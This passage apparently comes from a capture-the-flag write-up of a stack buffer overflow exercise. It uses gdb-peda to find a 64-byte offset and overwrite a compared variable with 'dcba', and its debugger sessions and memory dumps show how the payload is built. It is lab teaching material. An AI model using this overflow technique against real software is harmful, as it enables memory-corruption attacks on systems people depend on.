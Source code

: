 > Since we compiled with debug symbols and we use peda, it's very easy to see...

So it checks if the value modified equals to **"0x61626364"** or not.

```x86asm
gdb-peda$ p/d 0x61
$32 = 97
gdb-peda$ p/d 0x62
$33 = 98
gdb-peda$ p/d 0x63
$34 = 99
gdb-peda$ p/d 0x64
$35 = 100
```
ASCII equivalent is **"dcba" (100 99 98 97)**. So we can send some kind of following payload:
[offset]+dcba or hex equivalent.

Run the binary again and let's see what happens:

```nasm
   0x0804924f <+89>:	add    esp,0x10
=> 0x08049252 <+92>:	mov    eax,DWORD PTR [ebp-0x1c]
   0x08049255 <+95>:	cmp    eax,0x61626364
```

Let's run it again then check what we have in that place **(ebp-0x1c)** with the following commands.

```nasm
gdb-peda$ r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNPPPPOOOOXXXX
..trim..
gdb-peda$ x/wx $ebp-0x1c
0xffffd0ec:	0x58585858
```

To let this solution post shorter I didn't want to do same steps multiple times. So, we found our offset:
```x86asm
gdb-peda$ python-interactive print(len('AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNPPPPOOOOXXXX')-4)
64
```

**esp dump:**
```nasm
gdb-peda$ x/20xw $esp
0xffffd0a0:	0x00000000	0x00000000	0xf7ffd000	0x41414141<=First(A)
0xffffd0b0:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd0c0:	0x46464646	0x47474747	0x48484848	0x49494949
0xffffd0d0:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xffffd0e0:	0x4e4e4e4e	0x50505050	0x4f4f4f4f  *0x58585858<=Target

gdb-peda$ c
Continuing.
Try again, you got 0x58585858
[Inferior 1 (process 7941) exited normally]
Warning: not running
```
